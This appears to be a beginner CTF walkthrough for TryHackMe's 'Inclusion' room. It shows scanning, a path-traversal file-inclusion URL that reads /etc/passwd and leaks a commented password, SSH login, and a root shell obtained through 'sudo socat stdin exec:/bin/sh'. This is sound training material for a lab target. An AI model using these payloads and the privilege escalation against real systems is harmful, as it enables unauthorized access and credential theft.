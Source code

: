 ```yaml
---
title: Inclusion walkthrough on TryHackMe
description: Inclusion walkthrough on TryHackMe
image: /walkthroughs/images/inclusion0.png
---
```


# Inclusion
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/inclusion) to the Inclusion CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

![](images/inclusion0.png)

<br>

## Objectives
This CTF requires that you find the following:
- User flag
- Root flag

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN inclusion.nmap 10.10.132.179
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```

<br>

## Website

First things first, let's run a `gobuster` scan:
```
gobuster dir -u http://10.10.132.179 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o inclusion.buster -x php,txt,html 2& > /dev/null
```
The scan only shows one result and navigating to it does not work.
```
/article              (Status: 500) [Size: 290]
```

When navigating to the main website the following appears:

![](images/inclusion1.png)

Clicking on the blue learn more button doesn't do anything, but if you click on the 3 view details buttons it gives you a description of the attacks.

Read through these as they are key concepts for this CTF.

While on the LFI-attack view details screen you'll notice the URL displays:
```
http://10.10.132.179/article?name=lfiattack
```

Reading through the description of this attack explains how to modify what comes after **name=** to view information on the webserver itself.

With the following URL we are able to view the contents of the **/etc/passwd** file and figure out some user names to potentially login via ssh with:
```
http://10.10.132.179/article?name=../../../etc/passwd
```
**TIP:** the above displays unformatted text that is very hard to read. You can view the page source and it formats it much nicer for you: Either add **view-source:** in front of the URL or right click the page and select view source.
```
view-source:http://10.10.132.179/article?name=../../../etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:<REDACTED>
```
And to help understand what this all means here is a quick breakdown of what each of these fields represent. Fields are separated by :'s
```
username : password (only shows x due to shadowing) : user ID : group ID : GECOS info : home dir : shell
```
Looking at the falconfeast user you'll notice extra information after the shell:
```
#falconfeast:<REDACTED>
```

Let's see what that's all about.

<br>

## Logging into the system

We have a username of falconfeast, and the strange comment after his user entry in the **/etc/passwd** file. Let's try and login via `ssh` with those 2 pieces of info:
```
┌──(kali㉿kali)-[~/work]
└─$ ssh falconfeast@10.10.132.179
The authenticity of host '10.10.132.179 (10.10.132.179)' can't be established.
ED25519 key fingerprint is SHA256:P/7iIMaP0XJ+fmztBwOlGFKmTzcG70wdIP+zi/K87k0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.179' (ED25519) to the list of known hosts.
falconfeast@10.10.132.179's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 21 08:43:27 IST 2022

  System load:  0.0               Processes:           86
  Usage of /:   34.9% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.132.179
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
```
We're in! Let's see if we can find the user flag by looking in their home directory:
```
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
<REDACTED>
```
1 flag down and 1 to go!

Now let's see if we can escalate our priviles and get the root flag. I start out with the standard `sudo -l` to see if we can run anything as root:
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
It turns out we can use `socat` as root which is a tool similar to netcat.

Let's check out [**https://gtfobins.github.io/**](https://gtfobins.github.io/) to see if there's an easy way to break out of that command to a root shell:

![](images/inclusion2.png)

We can see there are several methods listed for socat. Here is the information on how to utilize this via sudo:

![](images/inclusion4.png)

Running the `sudo socat stdin exec:/bin/sh` command:
```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```
You'll notice in the description that it mentions it will not be a proper TTY shell which is why you do not see a prompt of any kind.

While not really necessary for this CTF I'll show you quickly upgrade this shell so it functions like a normal interactive shell:
```
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@inclusion:~# export TERM=xterm
export TERM=xterm
root@inclusion:~# ^Z
[1]+  Stopped                 sudo socat stdin exec:/bin/sh
falconfeast@inclusion:~$ stty raw -echo; fg
sudo socat stdin exec:/bin/sh

root@inclusion:~#
```
And now we have a shell that's much easier to use. Let's look in the **/root** directory for the root flag:
```
root@inclusion:~# cd /root
root@inclusion:/root# ls
root.txt
root@inclusion:/root# cat root.txt
<REDACTED>
```

**Note**: We could have easily obtained the two flags via LFI like we did when displaying the **/etc/passwd** file earlier since it appears the webserver is running under the root user giving us access to the **/root** directory. I wanted to assume we didn't know the filenames of the flags and obtain them without shortcuts.
```
This gives you the user flag:

http://10.10.132.179/article?name=../../../home/falconfeast/user.txt

This gives you the root flag:

http://10.10.132.179/article?name=../../../../root/root.txt
```

We've now solved this CTF and have both flags!

 ![](images/inclusion3.png)

Many thanks to:
- [**falconfeast**](https://tryhackme.com/p/falconfeast) for creating this CTF.
- **TryHackMe** for hosting this CTF.


Visit TryHackMe at: [**https://tryhackme.com**](https://tryhackme.com)

